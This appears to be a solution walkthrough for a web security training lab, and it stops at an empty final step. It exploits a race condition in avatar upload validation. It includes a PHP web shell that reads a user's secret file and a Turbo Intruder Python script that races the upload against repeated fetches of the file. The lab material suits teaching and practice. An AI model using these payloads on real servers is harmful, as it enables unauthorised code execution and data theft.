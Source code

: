 ## Solution steps

- Open Burp Suite and set-up proxy.
- Keep the intercept off.
- Log in using the given credentials and upload an image as your avatar, then go back to your account page.
- In Burp, go to Proxy > HTTP history and notice that your image was fetched using a GET request to /files/avatars/<YOUR-IMAGE>.
- On your system, create a file called exploit.php containing a script for fetching the contents of Carlos's secret. For example: `<?php echo file_get_contents('/home/carlos/secret'); ?>`
- Attempt to upload the script as your avatar. Observe that the server appears to successfully prevent you from uploading files that aren't images.
- If you haven't already, add the Turbo Intruder extension to Burp from the BApp store.
- Right-click on the POST /my-account/avatar request that was used to submit the file upload and select Extensions > Turbo Intruder > Send to turbo intruder. The Turbo Intruder window opens.
- Copy and paste the following script template into Turbo Intruder's Python editor:
  <pre> ```python def queueRequests(target, wordlists): engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,) request1 = '''<YOUR-POST-REQUEST>''' request2 = '''<YOUR-GET-REQUEST>''' # the 'gate' argument blocks the final byte of each request until openGate is invoked engine.queue(request1, gate='race1') for x in range(5): engine.queue(request2, gate='race1') # wait until every 'race1' tagged request is ready # then send the final byte of each request # (this method is non-blocking, just like queue) engine.openGate('race1') engine.complete(timeout=60) def handleResponse(req, interesting): table.add(req) ``` </pre>

- 
